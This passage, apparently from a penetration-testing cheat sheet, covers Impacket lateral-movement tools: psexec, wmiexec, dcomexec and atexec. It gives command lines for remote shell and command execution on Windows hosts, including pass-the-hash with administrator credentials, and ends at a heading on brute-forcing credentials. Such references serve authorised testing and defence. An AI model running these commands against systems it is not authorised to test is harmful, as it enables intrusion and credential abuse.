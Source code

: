 ```bash
#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
```

Using **parameter**`-k` you can authenticate against **kerberos** instead of **NTLM**

### [wmiexec](../../windows-hardening/lateral-movement/wmiexec.md)/dcomexec

Stealthily execute a command shell without touching the disk or running a new service using DCOM via **port 135.**\
In **kali** it is located on /usr/share/doc/python3-impacket/examples/

```bash
#If no password is provided, it will be prompted
./wmiexec.py [[domain/]username[:password]@]<targetName or address> #Prompt for password
./wmiexec.py -hashes LM:NT administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```

Using **parameter**`-k` you can authenticate against **kerberos** instead of **NTLM**

```bash
#If no password is provided, it will be prompted
./dcomexec.py [[domain/]username[:password]@]<targetName or address>
./dcomexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
#You can append to the end of the command a CMD command to be executed, if you dont do that a semi-interactive shell will be prompted
```

### [AtExec](../../windows-hardening/lateral-movement/atexec.md)

Execute commands via the Task Scheduler (using _\pipe\atsvc_ via SMB).\
In **kali** it is located on /usr/share/doc/python3-impacket/examples/

```bash
./atexec.py [[domain/]username[:password]@]<targetName or address> "command"
./atexec.py -hashes <LM:NT> administrator@10.10.10.175 "whoami"
```

## Impacket reference

[https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)

## **Bruteforce users credentials**

**This is not recommended, you could block an account if you exceed the maximum allowed tries**
